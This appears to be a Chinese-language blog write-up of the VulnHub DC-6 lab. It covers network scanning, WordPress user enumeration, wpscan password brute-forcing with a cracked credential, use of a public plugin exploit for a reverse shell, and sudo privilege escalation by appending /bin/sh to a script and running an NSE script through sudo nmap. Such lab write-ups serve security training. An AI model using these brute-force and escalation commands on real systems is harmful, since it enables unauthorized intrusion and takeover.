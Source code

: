 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: 靶机  DC6-writeup
# 设置作者
author: lhz
# 设置写作时间
time: 2021-10-05
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 靶机
comment: false

typora-root-url: ..\..\..\.vuepress\public


---
```


## 0x01 介绍

靶机地址：

> <https://www.vulnhub.com/entry/dc-6,315/>

**DESCRIPTION**

DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

This isn't an overly difficult challenge so should be great for beginners.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

`cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt` That should save you a few years. ;-)

**NOTE: You WILL need to edit your hosts file on your pentesting device so that it reads something like:**

```
192.168.0.142 wordy
```

## 0x02 信息收集

扫描IP

```
nmap -sP 172.16.89.0/24
```

![image-20211005150145884](/assets/img/image-20211005150145884.png)

发现ip：172.16.89.7

进一步扫描

```
nmap -T5 -A -v -p- 172.16.89.7
```

结果

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-05 15:02 CST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating ARP Ping Scan at 15:02
Scanning 172.16.89.7 [1 port]
Completed ARP Ping Scan at 15:02, 0.02s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:02
Completed Parallel DNS resolution of 1 host. at 15:02, 0.00s elapsed
Initiating SYN Stealth Scan at 15:02
Scanning 172.16.89.7 [65535 ports]
Discovered open port 22/tcp on 172.16.89.7
Discovered open port 80/tcp on 172.16.89.7
Completed SYN Stealth Scan at 15:02, 5.10s elapsed (65535 total ports)
Initiating Service scan at 15:02
Scanning 2 services on 172.16.89.7
Completed Service scan at 15:02, 6.54s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 172.16.89.7
NSE: Script scanning 172.16.89.7.
Initiating NSE at 15:02
Completed NSE at 15:02, 0.65s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.03s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Nmap scan report for 172.16.89.7
Host is up (0.0010s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
MAC Address: 00:0C:29:9F:2E:8D (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.048 days (since Sun Mar 21 13:53:15 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.04 ms 172.16.89.7

NSE: Script Post-scanning.
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.14 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

修改host文件

```
echo "172.16.89.7 wordy" >> /etc/hosts
```

访问http://wordy，发现目标是wordpress搭建的网站

![image-20211005150502759](/assets/img/image-20211005150502759.png)

## 0x03 渗透

使用wps扫描网站用户

```
wpscan --url http://wordy --enumerate u
```

根据提示生成密码字典

```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

使用wpscan爆破

```
wpscan --url http://wordy --passwords passwords.txt
```

爆破出一个账号：mark，密码：helpdesk01

![image-20211005162459020](/assets/img/image-20211005162459020.png)

使用爆破得到的账号登陆后，发现安装有Active Monitor插件

```
searchsploit Activity Monitor -w
```

发现存在漏洞

https://www.exploit-db.com/exploits/50110

下载利用，得到shell，在kali上回弹shell

![image-20211005162756068](/assets/img/image-20211005162756068.png)

升级shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

翻一下/home，在mark下发现graham的密码

![image-20211005163415161](/assets/img/image-20211005163415161.png)

切换用户到graham，运行sudo -l

![image-20211005164152979](/assets/img/image-20211005164152979.png)

可以使用jens权限执行sh脚本，获得jens权限

```bash
echo "/bin/sh" >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
```

执行sudo -l

![image-20211005164709678](/assets/img/image-20211005164709678.png)

可以执行nmap，参考前面nmap越权方法

```bash
echo 'os.execute("/bin/sh")' > /tmp/root.nse
cat /tmp/root.nse
sudo nmap --script=/tmp/root.nse
```

![image-20211005164930280](/assets/img/image-20211005164930280.png)
